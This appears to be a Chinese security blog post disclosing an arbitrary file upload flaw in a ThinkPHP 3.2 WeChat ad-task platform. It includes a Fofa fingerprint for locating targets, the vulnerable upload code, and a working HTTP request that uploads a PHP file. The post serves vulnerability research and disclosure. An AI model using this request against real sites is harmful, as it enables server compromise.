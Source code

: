 #  某最新微信广告任务平台存在任意文件上传漏洞(RCE)   
原创 Mstir  星悦安全   2024-09-21 12:29  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
**源码简介:****本平台基于 Thinkphp3.2 框架精心打造，确保系统稳定、安全、高效运行。****核心功能：****第三方个人免签支付：无缝对接支付接口，支持微信、支付宝等多种支付方式，让交易更便捷。VIP 等级充值：提供不同等级的 VIP 会员服务，如钻石会员，享受更多特权和更高收益。******  
  
**Fofa指纹:"/tpl/Public/js/func.js"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cKdT0gp62ibrjvHgGCY10UzosbvgGcFODM0iclcxgGJlELxKqib8mxX9fCW9O9Zzpb5WwgiaXNYCufmA/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cKdT0gp62ibrjvHgGCY10UzMUobfnbkSibCQdD84V4ztm0j7fG1sMoe9CvIicTFNSIp1eicqRNvOKyEQ/640?wx_fmt=png&from=appmsg "")  
  
**框架:ThinkPHP 3.2.3 Debug:True**  
## 0x01 漏洞分析  
  
**位于 /Home/Controller/IndexController.class.php 控制器的 ajax_upload 方法存在上传文件的操作，我们追踪一下.**  
```
/**
* webuploader 上传文件
*/
public function ajax_upload(){
  // 根据自己的业务调整上传路径、允许的格式、文件大小
  ajax_upload('/Uploads/images/');
}
```  
  
**实际继承自 /Common/Common/function.php 的 Ajax_upload 方法.**  
```
/**
 * 上传文件类型控制 此方法仅限ajax上传使用
 * @param  string   $path    字符串 保存文件路径示例：/Upload/image/
 * @param  string   $format  文件格式限制
 * @param  integer  $maxSize 允许的上传文件最大值 52428800
 * @return booler   返回ajax的json格式数据
 */
function ajax_upload($path='file',$output_type=0,$subName='date',$format='empty',$maxSize='52428800'){
    ini_set('max_execution_time', '0');
    // 去除两边的/
    $path=trim($path,'/');
    // 添加Upload根目录
    $path=strtolower(substr($path, 0,6))==='upload' ? ucfirst($path) : 'Upload/'.$path;
    // 上传文件类型控制
    $ext_arr= array(
        'image' => array('gif', 'jpg', 'jpeg', 'png', 'bmp'),
        'photo' => array('jpg', 'jpeg', 'png'),
        'flash' => array('swf', 'flv'),
        'media' => array('swf', 'flv', 'mp3', 'wav', 'wma', 'wmv', 'mid', 'avi', 'mpg', 'asf', 'rm', 'rmvb'),
        'file' => array('doc', 'docx', 'xls', 'xlsx', 'ppt', 'htm', 'html', 'txt', 'zip', 'rar', 'gz', 'bz2','pdf')
    );
    if( $subName == 'date' ) {
        $subName = array('date', 'Y-m-d'); //子目录创建方式，[0]-函数名，[1]-参数，多个参数使用数组
    }
    if(!empty($_FILES)){
        // 上传文件配置
        $config=array(
            'maxSize'   =>  $maxSize,               // 上传文件最大为50M
            'rootPath'  =>  './',                   // 文件上传保存的根路径
            'savePath'  =>  './'.$path.'/',         // 文件上传的保存路径（相对于根路径）
            'saveName'  =>  array('uniqid',''),     // 上传文件的保存规则，支持数组和字符串方式定义
            'autoSub'   =>  true,                   // 自动使用子目录保存上传文件 默认为true
            'exts'      =>    isset($ext_arr[$format])?$ext_arr[$format]:'',
            'subName'      => $subName, //子目录创建方式，[0]-函数名，[1]-参数，多个参数使用数组
        );
        // p($_FILES);
        // 实例化上传
        $upload=new \Think\Upload($config);
        // 调用上传方法
        $info=$upload->upload();
        // p($info);
        $data=array();
        if(!$info){
            // 返回错误信息
            $error=$upload->getError();
            $data['error_info']=$error;
            if( $output_type == 1 ) {
                return json_encode($data);
            } else {
                echo json_encode($data);
            }
        }else{

            // 返回成功信息
            foreach($info as $file){
                $data['name']=trim($file['savepath'].$file['savename'],'.');
                $data['oldname']=$file['name'];
                // p($data);
                if( $output_type == 1 ) {
                    return $data['name'];
                } else {
                    echo json_encode($data);
                }
            }
        }
    }
}
```  
  
**这里看起来限制了上传文件的后缀，实际去测根本没有任何限制.....**  
## 0x02 漏洞复现  
  
注意 这里需要普通用户登录之后操作.Payload:  
```
POST /index.php/Home/index/ajax_upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCc7iBZFp1mvojsxn
Cookie: think_language=zh-CN; BJYADMIN=2150gjbkj92r835kg2dn9u9i75
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/index.php/Home/Index/index.html
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```  
  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转，RCE******  
  
**广告任务系统 源码关注公众号，发送 240921 获取.**  
  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
